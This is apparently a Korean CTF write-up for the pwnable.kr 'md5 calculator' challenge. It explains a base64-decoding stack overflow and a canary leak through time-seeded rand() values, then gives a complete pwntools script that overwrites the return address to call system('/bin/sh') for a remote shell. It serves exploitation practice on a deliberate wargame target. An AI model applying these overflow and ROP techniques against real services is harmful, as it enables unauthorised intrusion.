 # [pwnable.kr] md5 calculator

> We made a simple MD5 calculator as a network service.
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
> hint : this service shares the same machine with pwnable.kr web service
>
> Running at : nc pwnable.kr 9002
>
> [Attachment](./attachment)

## Bug

![image](https://github.com/user-attachments/assets/7df0091e-f3e1-4d24-8ff6-67b2b06b30c7)

`g_buf`에는 `0x400`바이트까지 입력할 수 있는데, 최대로 입력할 경우 base64 decode하면 `0x300`바이트가 된다. 하지만 decode한 문자열을 저장하는 `v3`의 size는 `0x200`이므로 stack buffer overflow가 발생할 수 있다.

## Exploit

### Leak canary

![image](https://github.com/user-attachments/assets/92d0bcaa-210b-47bf-98c6-9aa11f1ea27f)

Captcha는 `my_hash()`로 생성되는데,

![image](https://github.com/user-attachments/assets/dfe4524d-d882-42e4-8db9-2ce2b1a467dd)

`rand()`로 생성된 랜덤 값들과 canary를 조합해서 만들어진다.

`srand()`로 시드를 똑같이 현재 시각으로 설정해 주면 `rand()`의 반환값들을 모두 재현할 수 있기 때문에 captcha로부터 canary를 알아낼 수 있다.

### ROP

`process_hash()`의 return address를 덮어서 ROP를 할 수 있다. `g_buf`에 `"/bin/sh"`를 넣어서 사용하고, 바이너리에 포함된 `system()` 함수를 호출하여 shell을 획득할 수 있다.

### Full code

```python
# ex.py

from pwn import process, remote, p32, log, pause
from ctypes import CDLL
from base64 import b64encode

r = remote("pwnable.kr", 9002)

system_plt = 0x8048880  # PLT of system()
g_buf = 0x804B0E0  # g_buf


# generate random values

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")

libc.srand(libc.time(0))
v2 = libc.rand()
v3 = libc.rand()
v4 = libc.rand()
v5 = libc.rand()
v6 = libc.rand()
v7 = libc.rand()
v8 = libc.rand()
v9 = libc.rand()


# captcha

r.recvuntil(b"Are you human? input captcha : ")
captcha = r.recvline()[:-1]
r.sendline(captcha)


# leak canary

captcha = int(captcha)
canary = captcha - v6 + v8 - v9 - v4 + v5 - v3 - v7
while canary < 0:
    canary += 0x100000000
log.info("canary: " + hex(canary))


# ROP

payload = b"A" * 0x200
payload += p32(canary)
payload += b"A" * 0xC

# system("/bin/sh")
payload += p32(system_plt)  # return address of process_hash()
payload += b"A" * 0x4
payload += p32(g_buf + 0x3F8)  # address of "/bin/sh"

payload = b64encode(payload).ljust(0x3F8, b"A") + b"/bin/sh"

r.sendlineafter(b"Encode your data with BASE64 then paste me!\n", payload)


r.interactive()
```

![image](https://github.com/user-attachments/assets/ea219dcb-a9b2-496d-b6de-c8ac29aa7f14)
